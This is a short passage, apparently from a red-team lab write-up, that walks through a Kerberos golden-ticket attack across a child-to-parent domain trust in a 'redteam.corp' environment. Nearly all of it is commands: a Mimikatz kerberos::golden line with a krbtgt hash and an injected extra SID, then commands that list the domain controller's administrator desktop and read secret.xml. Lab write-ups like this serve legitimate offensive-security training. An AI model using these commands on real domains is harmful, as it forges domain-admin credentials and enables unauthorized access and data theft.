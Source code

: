 We perform the gold ticket attack

```python
kerberos::golden /user:Administrator /domain:child.redteam.corp /sid:S-1-5-21-2332039752-785340267-2377082902 /sids:S-1-5-21-1882140339-3759710628-635303199-500 /krbtgt:24dd6646fd7e11b60b6a9508e6fe7e5a /ptt
```

```python
misc::cmd
```

We verified if we had access to RED-DC
```python
dir \\RED-DC.redteam.corp\C$\Users\Administrator\Desktop\
```

And now we can read the Secret Archive.xml
```python
type \\RED-DC.redteam.corp\C$\Users\Administrator\Desktop\secret.xml
```

![[Pasted image 20250512212141.png]]